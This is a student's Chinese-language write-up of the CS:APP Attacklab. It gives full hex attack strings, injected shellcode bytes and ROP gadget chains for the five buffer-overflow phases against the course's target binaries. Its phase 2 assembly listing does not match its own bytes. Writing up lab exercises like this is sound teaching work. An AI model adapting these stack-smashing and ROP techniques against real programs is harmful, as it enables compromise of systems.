


# Attacklab Report
##### 2021201709 李俊霖
## 1. 攻击思路与过程
### 1.1. phase 1
+ 分析：调用$getbuf$后，需要返回时返回到$touch1$函数。
```dotnetcli
000000000040182c <getbuf>:
  40182c:	48 83 ec 38          	sub    $0x38,%rsp
  401830:	48 89 e7             	mov    %rsp,%rdi
  401833:	e8 32 02 00 00       	callq  401a6a <Gets>
  401838:	b8 01 00 00 00       	mov    $0x1,%eax
  40183d:	48 83 c4 38          	add    $0x38,%rsp
  401841:	c3                   	retq   
```
+ 分析getbuf的汇编代码如上，需要先将56个字节将$getbuf$的栈空间填满，最后将返回$touch1$的地址。
+ 查到`touch1`代码地址为：`0x401842`。
+ 攻击串如下：
```dotnetcli
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
42 18 40 00 
```

### 1.2. phase 2
+ 查看`touch2`代码如下：
```c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
+ 因此，输入的字符串不仅需要修改返回地址，返回时调用`touch2`，还要把`cookie`作为参数传进函数。
+ 通过在栈中保存目标代码的地址，然后re的方式跳转。
+ 大致思路：
  + 输入字符串把调用者栈中储存的返回地址，修改为存放注入代码的地址。
  + 编写注入代码。
  + 首先要把将第一个参数寄存器修改为`cookie`值，即`0x244b28be`。
  + 栈中压入touch2代码地址，ret指令调用返回touch2。
  + 注入代码的位置应该是`getbuf`函数中的栈顶。
+ 查到`touch2`代码地址为：`0x40186e`。
+ 查到`getbuf`函数栈顶为`0x55652108`。
+ 注入代码如下：
```dotnetcli
movq    $0x604504, %rdi
pushq   $0x40186e
ret
```
+ 其字节级表示如下：
```dotnetcli
inject1.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 be 28 4b 24 	mov    $0x244b28be,%rdi
   7:	68 6e 18 40 00       	pushq  $0x40186e
   c:	c3                   	retq   
```
+ 最终得到攻击串如下：
```dotnetcli
48 c7 c7 be 28 4b 24 68 
6e 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 21 65 55
```
### 1.3. phase 3
+ 与第二关类似，输入的字符串不仅需要修改返回地址，返回时调用`touch3`，传入的参数是一个字符串。
+ 根据hexmatch(cookie, sval)函数，可知参数是`cookie`的值`244b28be`这个字符串。
+ 下面尝试把`cookie`的字符串数据存储在`test`的栈上，其他操作同第二问。
+ 数据的准备：
  + `0x244b28be`转成`ASCII`为`32 34 34 62 32 38 62 65`。
  + `getbuf`函数栈顶为`0x55652108`。
  + `touch3`代码地址为`0x401942`。
  + `cookie`的字符串数据在`test`栈上存的位置为返回地址前，即调用`getbuf`前的`rsp`值，为`0x55652148`。
+ 注入代码如下：
```dotnetcli
movq    $0x55652148, %rdi
pushq   $0x401942
ret
```
+ 其字节级表示如下：
```dotnetcli
inject2.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:	48 c7 c7 48 21 65 55 	mov    $0x55652148,%rdi
   7:	68 42 19 40 00       	pushq  $0x401942
   c:	c3                   	retq   
```
+ 在返回该注入代码位置地址之后的八字节位置，存放字符串的阿斯克码数据。最终得到攻击串如下：
```dotnetcli
48 c7 c7 48 21 65 55 68
42 19 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 21 65 55 00 00 00 00
32 34 34 62 32 38 62 65
```
### 1.4. phase 4
4-5两个关卡，需要对rtarget进行攻击。由于其采用了栈随机化和限制可执行代码区域两种策略来对抗缓冲区溢出攻击，因此我们只能使用ROP攻击策略。即在原程序找到可供我们使用的代码块。
+ 和`phase 2`要求一样要回到touch2函数。
+ `phase 2`的思路如下，但立即数找不到，只能通过转存的寄存器形式得到。
```dotnetcli
movq    $0x244b28be, %rdi
pushq   $0x40186e
ret
```
+ 根据从`farm`中找到的指令，构造如下两步指令，把存在栈中的cookie值取出到rax，再存入rdx。
```dotnetcli
popq %rax
ret
```
```dotnetcli
movq %rax, %rdi
ret
```
+ 设计思路如下：
  + getbuf执行返回操作ret，从栈中弹出返回地址（即我们设计的gardget1代码块），跳转到gardget1。
  + gadget1代码块执行，rsp指向cookie区域，弹出cookie，赋值给%rax，然后ret，继续弹出返回地址（即我们设计的gardget2代码块），跳转到gardget2。
  + gardget2代码块执行，cookie值赋值给参数寄存器%rdi，然后ret，rsp指向继续弹出返回地址，跳转到touch2
+ 栈的示意图如下。

+ 找两个gardget对应的代码块。
  + `pop %rax`指令为`58`:
    ```dotnetcli
      00000000004019f1 <setval_423>:
      4019f1:	c7 07 58 90 90 c3    	movl   $0xc3909058,(%rdi)
      4019f7:	c3                   	retq   
    ```
    指令地址：`0x4019f3`
  + `movq %rax, %rdi`为`48 89 c7`。
    ```dotnetcli
      00000000004019dd <getval_109>:
      4019dd:	b8 da 48 89 c7       	mov    $0xc78948da,%eax
      4019e2:	c3                   	retq   
    ```
    指令地址：`0x004019df`
+ 构造攻击串如下：
    ```dotnetcli
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    f3 19 40 00 00 00 00 00
    be 28 4b 24 00 00 00 00
    df 19 40 00 00 00 00 00
    6e 18 40 00 00 00 00 00
    ```

### 1.5. phase 5
+ 大致思路同3：
  + 把cookie的值存在栈中，不同的是本次要通过`%rsp`的偏移量来获得这个栈中的值，将cookie值存入`%rdi`。
  + 传完参数后调用touch3即可
+ 构造出来的栈图如下：
  
+ 寻找一系列代码块的代码：
  + 过程大致如下：
    + 要实现偏移，首先找到`lea  (%rdi,%rsi,1),%rax`语句。
    + 在偏移语句中，目标要将`%rsp`值存入`%rdi`中，将一个偏移量（后续计算）存入`%rsi`中。
    + 经过几次搜索尝试，发现经过`movq %rsp, %rax`和`movq %rax, %rdi`可以实现将`%rsp`值存入`%rdi`中。
    + 搜索`pop`的寄存器，发现存在直接`pop %rsi`的代码块，故直接使用。
    + 最后将`%rax`值存入`%rdi`中，作为函数的参数，`movq %rax, %rdi`代码块可以实现。
    + 通过栈图计算出偏移值为0x30。
+ 代码块地址如下：
```dotnetcli
movq %rsp, %rax
ret
#0x401a50

movq %rax, %rdi
ret
#4019df

pop %rsi
ret
#4012a1

lea    (%rdi,%rsi,1),%rax
ret
#401a0b

movq %rax, %rdi
ret
#4019d2
```
+ 最终构造攻击串如下：
```dotnetcli
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
50 1a 40 00 00 00 00 00
df 19 40 00 00 00 00 00
a1 12 40 00 00 00 00 00
30 00 00 00 00 00 00 00
0b 1a 40 00 00 00 00 00
d2 19 40 00 00 00 00 00
42 19 40 00 00 00 00 00
32 34 34 62 32 38 62 65
```
+ 至此，所有关卡$Pass$！

## 2. 总结与收获
+ 经过本次$attacklab$的攻击实践，我对一些汇编程序的逻辑实现和栈的结构更熟悉和有了更深入的理解，如ret指令的含义和函数栈帧的结构等，同时也学习了令我感到十分佩服的$ROP$技术。此外，实践过程也提高了我今后写代码时的安全意识。
## 3. 参考资料
+ [CMU-Attacklab实验的官方说明文档](http://csapp.cs.cmu.edu/3e/attacklab.pdf)